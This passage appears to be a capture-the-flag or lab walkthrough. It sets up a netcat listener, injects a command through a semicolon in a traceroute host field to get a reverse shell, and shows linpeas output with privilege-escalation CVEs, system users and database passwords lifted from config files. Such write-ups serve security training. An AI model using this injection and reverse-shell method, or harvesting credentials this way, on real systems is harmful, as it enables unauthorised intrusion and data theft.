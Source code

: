 Start a netcat listener on attacker machine:

```txt
nc -lvnp 4321
```

We can define a command to execute after the traceroute command by adding a semicolon after the ip address in the host field.


We can paste a reverse shell payload in to the entry field. Remember to adjust RHOST and RPORT values to fit your attacker machine parameters.

![[insert_reverse_shell_payload.png]]



We recive a shell on our attacker machine:

![[pop_www-data_shell.png]]

Linpeas output:

```
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   
╔══════════╣Users with console
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash


╔══════════╣ Analyzing Env Files (limit 70)
-rw-r--r-- 1 www-data www-data 572 Apr  9  2017 /var/www/laravel/.env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:+fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=
APP_DEBUG=true
APP_LOG_LEVEL=debug
APP_URL=http://localhost
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret

╔══════════╣ Searching passwords in config PHP files
   define('DB_DATABASE', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_USERNAME', 'admin');
            'password' => env('DB_PASSWORD', ''),
            'password' => env('REDIS_PASSWORD', null),

```
